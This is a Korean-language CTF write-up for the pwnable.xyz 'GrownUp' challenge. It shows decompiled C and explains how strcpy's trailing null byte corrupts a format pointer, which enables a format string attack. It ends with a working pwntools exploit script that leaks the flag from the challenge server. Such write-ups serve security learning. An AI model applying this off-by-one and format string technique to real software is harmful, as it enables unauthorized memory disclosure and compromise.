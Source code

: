 ```yaml
---
title: "[pwnable.xyz]GrownUp"
date: 2020-1-12
ctf: Pwnable.xyz
layout: post
published : false
---
```


setup함수는 설정해주는데 format_ptr로 format들 주소 가르키고 있다.

```c
unsigned int setup()
{
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  signal(14, handler);
  format_ptr = &format1;
  format1 = '%';
  format2 = 's';
  format3 = '\n';
  return alarm(60u);
}
```

메인은 간단하다. buf가 y인지 입력받고 read로 128바이트 입력받고 strcpy로 usr라는 bss영역에 값을 넣어준다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *src; // ST08_8
  __int64 buf; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  setup();
  buf = 0LL;
  v6 = 0LL;
  printf("Are you 18 years or older? [y/N]: ", argv);
  *(&buf + (read(0, &buf, 16uLL) - 1)) = 0;
  if ( buf != 'y' && buf != 'Y' )
    return 0;
  src = malloc(132uLL);
  printf("Name: ", &buf);
  read(0, src, 128uLL);
  strcpy(usr, src);
  printf("Welcome ", src);
  printf(format_ptr, usr);                      // %s
  return 0;
}
```

strcpy할때 \0이 붙어서 1바이트 추가되는 것을 이용하면 된다. read할 때 128만큼 채워주면 뒤에 1바이트 \0이 붙는다. 그거 이용하면 된다. 그러면 format_ptr에서 0x0000000000601160에서 1바이트 더 써지니까 0x0000000000601100이 된다. 그래서 포인터가 0x0000000000601100 주소 가르키니까 포맷스트링이 깨진다. 여기서 FSB이용해서 풀면 된다.

[y/N] 입력받을 때 16만큼 입력받으니까 앞에 y로 맞춰서 return 0 안되도록 하고 data영역에 있는 flag주소를 넣어서 스택에 값을 써준다. 그리고 fsb로 %p로 flag 주소를 찾은 다음에 %s로 출력해주면 된다. 

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
#context.log_level = 'debug'
e = ELF('./GrownUpRedist')
#p = process('./GrownUpRedist')
p = remote('svc.pwnable.xyz',30004)
flag= 0x0000000000601080

p.sendafter(':','Y'*8 + p64(flag))

payload = 'AAAAAAAA'
payload += '%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %s'
payload += 'A' * (0x80 - len(payload))
# print len(payload)
p.sendlineafter(':',payload)

p.interactive()
```

